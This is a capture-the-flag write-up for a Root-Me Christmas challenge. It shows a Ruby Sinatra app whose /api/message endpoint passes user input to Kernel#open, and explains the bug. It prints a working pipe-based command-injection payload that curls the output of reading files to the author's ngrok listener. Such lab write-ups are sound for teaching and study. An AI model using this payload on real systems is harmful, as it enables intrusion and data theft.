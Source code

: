 # Santa Sweet Words (day18)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">In this challenge a ruby website was deployed, and the goal was to read the flag on the server machine, located in /. The source code was available to download and is attached below :</p>

````ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end
````

<p align="justify">After a quick read, it appeared to me that the vulnerability was located in the message API, which was taking a 'number' parameter and concatenating '.txt' to it for file download. Because of the extension added to the filename a simple local file inclusion thanks to path traversal payload wasn't exploitable. After a few read I found (<a href="https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html">doc)</a> it was possible to run commands and escape the filename handled with the open() method, using | char. Hence what I've tried at first was to escape the filename variable with only one | . Nonetheless as shown below, It only triggered download of an empty file the name of my command :</p>  

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>


<p align="justify">Actually it was caused by the append of .txt at the end of the payload. After a few tries, I  finally came up with the exploit below consisting in putting the paylaod between 2 pipe char : | payload |. Hence what I've done had been to open a listening port on my machine, and then sent the content of the flag to my server with the request below :</p>

````bash
https://day18.challenges.xmas.root-me.org/api/message?number=|curl http://ngrokFQDN:port/($cat /*)|

````
And I finally received the flag !  
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

Flag : _RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}_ , thanks _Elweth_ for this challenge !
